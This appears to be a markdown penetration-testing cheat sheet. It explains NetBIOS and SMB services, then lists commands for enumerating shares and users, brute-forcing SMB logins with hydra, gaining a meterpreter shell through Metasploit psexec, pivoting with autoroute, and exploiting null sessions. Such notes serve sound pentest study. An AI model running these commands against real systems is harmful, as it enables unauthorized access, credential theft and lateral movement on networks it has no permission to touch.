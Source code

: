 
# NetBIOS (Network Basic Input Output System) 

is the service that allows Windows Systems to share files, folders and printers among machines on a LAN.


* Flow

PC's on a NetBIOS LAN communicate either by establishing a session or by using datagrams. To to This , NetBIOS uses the following TCP and UDP Ports.
  * UDP 137 for name services
  * UDP 138 for datagram services
  * TCP 139 for session services

---
* Name service

has the same purpose of a DNS record, it translates and maps a NetBIOS name to an IP (16-byte).
[NetBIOS Reference](https://technet.microsoft.com/en-us/library/cc738412(v=ws.10).aspx)

---

* Datagram Service 

The datagram service allows the sending and receiving of the datagram messages to and from:
  * a specific NetBIOS name
  * broadcast the datagram to all NetBIOS names

---

* Session service

The NetBIOS Session Service (NBSS) is the most commonly known of the NetBIOS services. It allows two names to establish a connection in order to exchange data.

---

* Server Message Block (SMB)

SMB lets you shares files , disks, directories, printers.

---

* How to enum NetBIOS

1-Gather information about target

> nbtstat -A 192.168.x.x

2-list domains, computers and resources shared by a computer in the network. 

> smbclient -L 192.168.x.x

> smbclient //192.168.x.x/folder

3- Get SMB users

> nmap  --script smb-enum-users.nse  192.168.x.x

4- After list all users 

> hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.168.x.x smb

5- After getting the password use metasploit 

> use exploit/windows/smb/psexec
> set RHOSTS 192.168.x.x
> set SMBUser administrator
> set SMBPass password
> exploit

6- After get meterpreter session , the following can add route to the specific IP **(Pivoting)**

> run autoroute 192.168.x2.x2/20

7- Start the socks proxy server to access the pivot system on the attacker's machine using the proxychains tool.

>

---

* Null Session

is the one of the oldest and most known attacks performed on Windows 2000 and Windows NT environments. Thanks to this weakness, malicious users are able to establish a connection to the victim in order to
gather information such as shares, users, groups, registry keys and much more.

Null sessions rely on Common Internet File System (CIFS) and Server Message Block (SMB) API, that return information even to an unauthenticated user.

> net use \\192.168.x.x\IPC$ "" /u:""

> smbclient //192.168.x.x/folder      with anonymous username and password

also using smbclient .

---

* Enum4linux

basically a wrapper around rpcclient , net , nmblookup and smbclient. That can gather (Target information , Workgroup/domain , Share Enum , Password Policy , Groups ,Domain SID , Users , Printer Info)

> enum4linux 192.168.x.x

---

* Rpcclient

a tool that can execute Microsoft RPC (Remote Procedure Call) functionalities.

> rpcclient -N -U "" 192.168.x.x

Then Use enumdomusers to list all users.

![image](https://user-images.githubusercontent.com/73122852/230804850-70ed025e-9a90-49e3-b352-a14f1fff68f2.png)









SNMP (Simple Network Management Protocol) : is a protocol used to both gather information and configure network devices (printers,switches,servers,....).

